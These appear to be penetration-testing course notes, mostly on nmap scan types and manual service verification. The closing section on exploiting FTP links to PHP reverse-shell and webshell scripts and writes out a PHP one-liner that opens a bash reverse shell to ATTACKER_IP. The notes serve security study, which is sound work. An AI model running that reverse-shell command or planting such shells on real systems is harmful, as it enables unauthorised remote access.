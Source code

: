# Network Services
#practicaltools 


## Network Services
1. Run a basic nmap, identify that host is up and has some services
2. Nmap "believes" things like FTP are up based on its own experience.
3. Loves looking at NFS shares
4. Ran Wireshark while running nmap
5. Few things to note. 
6. - Packets may be out of order
7. - Sends a "syn" first to see if the host is alive by sending to 80 and 443 as well as doing a ping sweep
8. Qasim called the "SYN" scan a bad habit. First, it is not a stealth scan because modern firewalls will catch you, second, your still generating a ton of traffic. OffSec does not teach this.
9. View the man pages, note the various important flags
10. -sS, -sT-, sA,-sF,-sX
11. -sX is the "Christmas" scan that you use when trying to break down the walls. It can confuse the target firewall and other defenses.
12. Then ran a Christmas scan
13. - Noted the open\filtered. Doesn't get a proper response, so hard to see if things are closed. 
14. UDP is the same way. It cannot tell you what happened on the other side
15. Can you `--reason` to get a reason why it came back. 
16. Below is combined. 
17. Do a -sTV scan together. Find SSH, verify it via `ssh -v <target>` and find the verison. Manual verification!
18. Verify the nginx version with `nc 80 <target>` then `GET / HTTP/1.1` and will see `nginx/1.10.3 (Ubuntu)`
19. 19. Got granular with -sTV -p 80 -reason -vvv
20. Then used a list with -iL file.txt
21. Goes into detail about what the script scan does, the types of information it exposes, etc.
22. Goes into detail with how to use greppable with big lists of hosts, grepping what is up.
23. Talked about XML being useful for other tools. References `eyewittness` to talk about tools that can screenshot web pages. 
24. Engaging with a port on nc is valuable becuse it is stealthy and you can do single commands





For exploiting the ftp service

First, anonymous login to FTP. Can get a php reverse shell with this repo https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
or you can get a webshell https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php
and you can use a php oneline script https://w00troot.blogspot.com/2017/05/getting-reverse-shell-from-web-shell.html but must change it to `php -r '$sock=fsockopen("ATTACKER_IP",ATTACKER_PORT);exec("/bin/bash -i <&3 >&3 2>&3");'` with your IP, catch it with nc